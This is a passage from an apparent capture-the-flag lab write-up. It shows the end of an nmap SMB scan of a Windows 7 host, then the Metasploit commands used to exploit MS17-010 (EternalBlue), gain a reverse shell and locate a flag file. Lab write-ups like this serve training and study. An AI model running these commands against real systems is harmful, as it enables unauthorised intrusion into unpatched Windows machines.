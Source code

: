 |   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-05-26T10:21:03-05:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 26 16:21:16 2022 -- 1 IP address (1 host up) scanned in 75.19 seconds
```
<br />

### 5.2: What is the content of the flag.txt file?

<br />

Search for ```MS17-010``` in Metasploit, as hinted on the question.
```
search MS17-010
```
![image](https://user-images.githubusercontent.com/14150485/170527080-8fe99576-a57d-4fe5-ad8c-b39f2702e1cf.png)

Looks like we could use the ```ms17_010_eternalblue exploit``` module from the list.

```
use 0
```

Alternatively, we can:
```
use exploit/windows/smb/ms17_010_eternalblue
```

We then proceed to set the ```LHOST``` value to our local IP, ```RHOSTS``` to the remote one, and run the exploit.

```set LHOST LOCAL_IP```
<br />
```set RHOSTS REMOTE_IP```
<br />
```run```


Once the shell is up, we search for the "flag.txt" file.
```
search -f flag.txt
```

![image](https://user-images.githubusercontent.com/14150485/170653550-4bad55d3-990b-44c2-958a-877ff1dd9f9b.png)

The file resides under the ```C:\Users\Jon\Documents\``` folder.
```